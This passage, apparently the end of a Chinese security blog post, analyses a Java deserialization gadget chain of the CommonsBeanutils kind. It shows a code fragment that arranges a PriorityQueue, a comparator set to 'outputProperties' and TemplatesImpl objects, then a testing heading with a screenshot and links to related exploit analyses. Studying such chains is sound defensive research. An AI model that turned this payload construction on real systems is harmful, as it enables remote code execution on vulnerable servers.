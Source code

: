 ```java
		queue.add(new BigInteger("1"));

		// switch method called by comparator
		Reflections.setFieldValue(comparator, "property", "outputProperties");

		// switch contents of queue
		final Object[] queueArray = (Object[]) Reflections.getFieldValue(queue, "queue");
		queueArray[0] = templates;
		queueArray[1] = templates;

		return queue;
```

### 0x03 测试
![](https://i.loli.net/2017/08/17/59950c77cb15c.png)

### 参考
- https://drops.secquan.org/papers/14317
- http://blog.knownsec.com/2016/03/java-deserialization-commonsbeanutils-pop-chains-analysis/
- http://xxlegend.com/2017/04/29/title-%20fastjson%20%E8%BF%9C%E7%A8%8B%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96poc%E7%9A%84%E6%9E%84%E9%80%A0%E5%92%8C%E5%88%86%E6%9E%90/
- http://jboss-javassist.github.io/javassist/tutorial/tutorial.html

